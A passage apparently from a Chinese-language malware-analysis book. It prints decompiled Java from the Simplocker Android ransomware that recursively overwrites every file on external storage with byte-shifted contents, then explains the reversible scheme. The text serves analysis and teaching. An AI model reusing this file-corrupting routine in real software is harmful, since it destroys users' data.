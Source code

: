 ```
public static void goToDir(File file, boolean z) {
  Log.v("CRYPT", file.getAbsolutePath());
  if (z) {
    try {
      byte[] readBytes = readBytes(
        String.valueOf(String.valueOf(file.getAbsolutePath().substring(
          0, file.getAbsolutePath().lastIndexOf("/"))) + "/" + file.getName()));
      byte[] bArr = new byte[readBytes.length];
      for (int i = 0; i < readBytes.length; i++) {
        bArr[i] = (byte) (readBytes[i] + 1);
      }
      BufferedOutputStream bufferedOutputStream = new BufferedOutputStream(
        new FileOutputStream(new File(file.getAbsolutePath())));
      bufferedOutputStream.write(bArr);
      bufferedOutputStream.flush();
      bufferedOutputStream.close();
    } catch (Throwable th) {
      File[] listFiles = new File(file.getAbsolutePath()).listFiles();
      for (File goToDir : listFiles) {
        goToDir(goToDir, z);
      }
    }
  } else {
    byte[] readBytes2 = readBytes(
      String.valueOf(String.valueOf(file.getAbsolutePath().substring(
        0, file.getAbsolutePath().lastIndexOf("/"))) + "/" + file.getName()));
    byte[] bArr2 = new byte[readBytes2.length];
    for (int i2 = 0; i2 < readBytes2.length; i2++) {
      bArr2[i2] = (byte) (readBytes2[i2] - 1);
    }
    BufferedOutputStream bufferedOutputStream2 = new BufferedOutputStream(
      new FileOutputStream(new File(file.getAbsolutePath())));
    bufferedOutputStream2.write(bArr2);
    bufferedOutputStream2.flush();
    bufferedOutputStream2.close();
  }
}

public void encryptAll() {
  File[] listFiles = new File(
    String.valueOf(Environment.getExternalStorageDirectory())).listFiles();
  for (File goToDir : listFiles) {
    goToDir(goToDir, true);
  }
}
```

*列表 10-2：用于加密 Simplocker 中的文件的代码*

这种加密方式很容易被破解，但对于没有经验的用户来说，它足以完全破坏所有文件内容。请注意，我们可以在同一个函数中找到解密功能。传递给`goToDir`的布尔标志`z`决定了该函数是执行加密还是解密。

Listing 10-3 显示了用于结束相关进程并计时锁定机制的代码片段。
